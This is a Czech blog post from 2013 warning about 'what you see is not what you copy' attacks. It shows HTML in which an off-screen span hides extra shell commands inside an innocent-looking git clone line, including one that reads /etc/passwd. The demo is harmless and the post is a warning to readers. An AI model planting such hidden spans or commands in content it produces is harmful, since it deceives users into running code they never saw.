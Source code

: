 Title: WYSINWYC (What you see is not what you copy) exploit
Date: 2013-04-08 21:58
Author: Jakub Jedelsky
Category: blog
Tags: exploit, wysinwyc
Slug: wysinwyc-what-you-see-is-not-what-you-copy-exploit

Je to docela známá fičura, která se objevuje (hlavně) na zpravodajských
serverech - při zkopírování části textu se do clipboardu přidá daší
text, o který nikdo tak úplně nestojí. Když už se ale do Wordu vloží,
tak jej lehce umažeme (a [kašleme na nějaké citace][]). Co když se ale
zrovna nekopíruje část článku, ale **unixové příkazy, u kterých je velká
pravděpodobnost, že půjdou rovnou do terminálu?**  
  
Kolega mě upozornil na [pěknou ukázku][], jak tohoto zneužít. Vezměte
si třeba tento jednoduchý příkaz, který si z nějakého důvodu chcete
zkopírovat do terminálu a spustit (převzato z původního zdroje):

<pre>git clone<span style="position: absolute; left: -100px; top: -100px;"> /dev/null; clear; echo -n "Hello ";whoami|tr -d '\n';echo -e '!\nThat was a bad idea. Don'"'"'t copy code from websites you don'"'"'t trust!; Here'"'"'s the first line of your /etc/passwd: ';head -n1 /etc/passwd; git clone </span>  git://git.kernel.org/pub/scm/utils/kup/kup.git</pre>

Jak nevinně se, hajzlík, tváří! Uživatel čeká, že si nahrajeme zdrojáky
k modulu kernelu, ale při zkopírování nedostane jen toto - do schránky
se přidá i skrytý bonus. Zkus to.

Celý trik je v tom, že část, kterou před uživatelem chceme schovat,
pomocí tagu ```<span>``` lehce posuneme. Celé to pak vypadá
nějak takto:

```bash
git clone 
<span style="position: absolute; left: -100px; top: -100px;">
    /dev/null; 
    clear; 
    echo -n "Hello ";whoami|tr -d '\n';
    echo -e "\nThat was a bad idea. Don't copy code from websites you don't trust! Here's the first line of your /etc/passwd: ";
    head -n1 /etc/passwd;
    git clone
</span>
git://git.kernel.org/pub/scm/utils/kup/kup.git
```

Metod, jak přidat k textu v clipboardu něco navíc je spousta. Takže
pozor co a odkud kopírujete. Pokud například berete více příkazů
současně, může se mezi ně jednoduše něco takového vloudit.

[Původní zdroj][pěknou ukázku]  
[Dokument o WYSINWYC][]

  [kašleme na nějaké citace]: http://www.ceskatelevize.cz/ct24/regiony/jihomoravsky-kraj/119385-onderkova-zaverecna-prace-na-vs-nevyhovuje-kriteriim/
    "O bakalářské práci nejlepšího primátora největšího města ČR"
  [pěknou ukázku]: http://thejh.net/misc/website-terminal-copy-paste
  [Dokument o WYSINWYC]: http://www.ush.it/team/ascii/hack-tricks_253C_CCC2008/wysinwyc/what_you_see_is_not_what_you_copy.txt
